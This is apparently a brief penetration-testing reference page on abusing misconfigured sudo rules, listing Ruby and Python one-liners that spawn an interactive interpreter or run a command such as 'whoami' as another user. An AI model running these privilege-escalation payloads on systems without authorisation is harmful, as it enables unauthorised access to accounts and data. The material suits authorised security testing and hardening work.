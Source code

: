 ```yaml
---
description: >-
  This page contains payloads that can be used to abuse sudo misconfigurations
  on a Unix-based system.
---
```


# Misconfigurations

Ruby

```bash
sudo -u $USER /usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'
```

Python

```bash
sudo -u $USER /usr/bin/python -c 'import os;os.system("whoami")'
```

```bash
sudo -u $USER /usr/bin/python -c 'from subprocess import call;call("[whoami]")'
```

